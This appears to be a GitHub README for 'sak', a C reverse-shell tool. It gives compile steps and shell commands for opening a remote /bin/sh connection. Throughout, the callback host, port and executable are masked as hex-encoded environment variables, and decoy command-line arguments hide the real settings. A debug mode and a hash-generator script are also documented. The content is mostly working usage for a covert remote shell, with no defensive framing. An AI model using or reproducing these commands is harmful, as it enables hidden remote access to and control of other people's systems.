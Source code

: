 # sak

*A reverse shell "Swiss Army Knife"*


## Compile Source

Clone this repo and compile with `gcc`
  - *you can change values defined in `sak.c` for custom env vars*

```bash
gcc sak.c -o sak
```

## Generate Environment

The `SAKTST` env var is a "toggle" to help generate masked values

Set `SAKTST=123` before running with args `./sak [ip] [port] [mask] [exec]`

```bash
SAKTST=123 ./sak 127.0.0.1 1337 hashmaskhere /bin/sh
# --------------------------------
# ENV: 127.0.0.1:1337
# --------------------------------
# SAKHSH=hashmaskhere
# SAKHST=595344465D4F434559
# SAKPRT=5952405F
# SAKEXC=47031A0642121B
```

Use the output as env vars for calling `./sak` again
  - *without `SAKTST=123`, cli args to `sak` are ignored*

## Connect Target

Either `export` all variables before, or prefix command to connect

```bash
export SAKHSH=hashmaskhere
export SAKHST=595344465D4F434559
export SAKPRT=5952405F
export SAKEXC=47031A0642121B
./sak --anthing goes=here
```

**OR ONE LINER**

```bash
SAKHSH=hashmaskhere SAKHST=595344465D4F434559 SAKPRT=5952405F SAKEXC=47031A0642121B ./sak --anthing goes=here
```

### Debug Mode

The `SAKDBG` env var is a toggle to display unmasked values on connecting

Set `SAKDBG=69` before running `./sak`

```bash
export SAKHSH=hashmaskhere
export SAKHST=595344465D4F434559
export SAKPRT=5952405F
export SAKEXC=47031A0642121B
export SAKDBG=69 # Enable debug output

./sak --fake-args

# CONN: 127.0.0.1:1337 ...
# HOST: [595344465D4F434559] => 127.0.0.1
# PORT: [5952405F] => 1337
# EXEC: [47031A0642121B] => /bin/sh

```

## Helper Script

Provided auto-hash generator script

```bash
# Set target ip
export SAKIP=127.0.0.1
# Generate values for given port with random hash
./gen.sh 1337
# Also works with multiple ports
./gen.sh 1337 4444 9999
```

## Error Handloling

Missing env/hash

```bash
./sak
# Epic fail
```

Invalid hash/port values

```bash
SAKHSH=Wr0nG SAKHST=595344465D4F434559 SAKPRT=5952405F SAKEXC=47031A0642121B ./sak --anthing goes=here

# Out of range
```
